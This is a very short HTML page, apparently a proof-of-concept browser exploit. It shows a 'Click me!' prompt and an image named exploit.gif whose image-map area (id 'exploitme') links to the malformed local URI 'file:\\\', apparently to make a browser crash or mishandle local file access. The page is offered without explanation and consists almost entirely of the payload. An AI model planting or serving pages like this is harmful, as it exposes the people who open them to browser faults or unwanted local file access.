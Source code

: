 <!DOCTYPE html>
<html>
<body>
    <p>
        Click me!
    </p>
<img src="exploit.gif" width="145" height="126"usemap="#exploitmap" alt="exploit" download>
<map name="exploitmap">
  <area shape="rect" coords="0,0,82,126" alt="exploit" id="exploitme" href="file:\\\">
</map>
</body>
</html>